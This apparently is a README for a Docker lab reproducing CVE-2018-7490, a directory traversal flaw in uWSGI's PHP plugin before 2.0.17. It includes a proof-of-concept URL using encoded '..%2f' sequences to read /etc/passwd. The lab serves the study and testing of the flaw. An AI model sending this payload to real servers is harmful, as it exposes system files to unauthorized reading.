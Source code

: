 
# uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490)

[中文版本(Chinese version)](README.zh-cn.md)

uWSGI is a web application server, which implements protocals such as WSGI/uwsgi/http, and supports for various languages through plugins.

The PHP plugin of uWSGI before 2.0.17 doesn't handle the detection of `DOCUMENT_ROOT` correctly, resulting in reading or running files outside the `DOCUMENT_ROOT` through the use of `..%2f`.

## Environment Setup

Enter the following command：

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the phpinfo page as the uwsgi-php server running successfully.

## POC

Directly visit `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`, you will get the passwd file：

![](1.png)
